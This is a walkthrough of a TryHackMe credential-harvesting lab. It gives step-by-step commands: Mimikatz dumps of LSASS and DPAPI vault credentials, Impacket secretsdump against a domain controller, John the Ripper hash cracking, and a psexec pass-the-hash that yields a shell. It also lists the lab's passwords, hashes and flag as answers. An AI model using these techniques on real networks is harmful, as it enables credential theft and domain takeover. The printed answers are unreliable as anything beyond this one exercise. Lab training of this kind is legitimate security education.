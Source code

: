 # [Intro to Credential Harvesting - TryHackMe](https://tryhackme.com/room/introtocredentialharvesting) | Cyanyde

Learn how credentials are stored, cached, and exposed in Windows and Active Directory environments.

## Credits

- Room type: Premium
- Created by [tryhackme](https://tryhackme.com/p/tryhackme) and [DrGonz0](https://tryhackme.com/p/DrGonz0)

## Windows & Active Directory Credential Stores

#### Provided Credentials

- User: Administrator
- Pass: N3w34829DJdd?1

### Which Windows component stores active NTLM and Kerberos credentials in memory?

> NTLM and Kerberos credentials are stored in **LSASS** memory

### What file in the C:\Windows\NTDS\ directory contains the AD database?

> The **NTDS.dit** file contains the AD database

### Which Mimikatz command exports DPAPI Vault credentials?

> **vault::cred /export** exports DPAPI vault credentials with Mimikatz

## Credential Extraction with Mimikatz

### What is Elon Tusk's Gmail password?

- RDP into first target machine using provided credentials
- *mimikatz* is provided on the desktop and *Windows Defender* is disabled
- Open powershell as administrator and run *mimikatz*
    - `.\mimikatz.exe`
    - `vault::list` to show available vaults on the system
    - `vault::cred /export` to display credentials

> Elon Tusk's Gmail password is **MyTusksAreThaB3st**

### What is svc-app's password?

- `sekurlsa::logonpasswords` within mimikatz will dump credentials stored within LSASS memory

> svc-app's password is **S3rv!c3Acc!**

## Credential Harvesting with Secretsdump

### What is drgonzo's password?

- Use *secretsdump.py* from the [Impacket](https://github.com/fortra/impacket) python module
    - `secretsdump.py WRK/Administrator:N3w34829DJdd?1@<target ip> -output local_dump` will dump the local hashes of the Domain Controller
- drgonzo's password hash information is: `TRYHACKME.LOC/drgonzo:$DCC2$10240#drgonzo#d0dc1647e45cf7364ecec3c7740fce0f:`
- Crack using *hashcat* or *johntheripper*
    - Shorten the hash to just the password
        - `:$DCC2$10240#drgonzo#d0dc1647e45cf7364ecec3c7740fce0f:`
    - `john --format=mscash2 hash --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt.tar` to use johntheripper with the *rockyou* wordlist, specifying the *mscash2* format

> drgonzo's password is **lasvegas1**

### What is the domain Administrators NTLM hash?

- Use the credentials for drgonzo to rerun *secretsdump.py* as domain admin
    - `secretsdump.py TRYHACKME/drgonzo:lasvegas1@10.220.10.10 -just-dc -output dc_dump`

> The domain Administrator's NTLM hash is **d71ee9fb6a3f54496bdc6c941f7a2903** (the room wants the NT hash only for some reason)

### What is the flag located on the domain admin's Desktop?

- Use Administrator NTLM hash to get shell on target machine
    - `psexec.py 'TRYHACKME/Administrator@<target ip>' -hashes aad3b435b51404eeaad3b435b51404ee:d71ee9fb6a3f54496bdc6c941f7a2903`
> <details><summary><code>cd C:\Users\Administrator\Desktop</code> and <code>type flag.txt.txt</code> to get flag contents: </summary>THM{gotta_l0ve_cr3dential_st0res}</details>

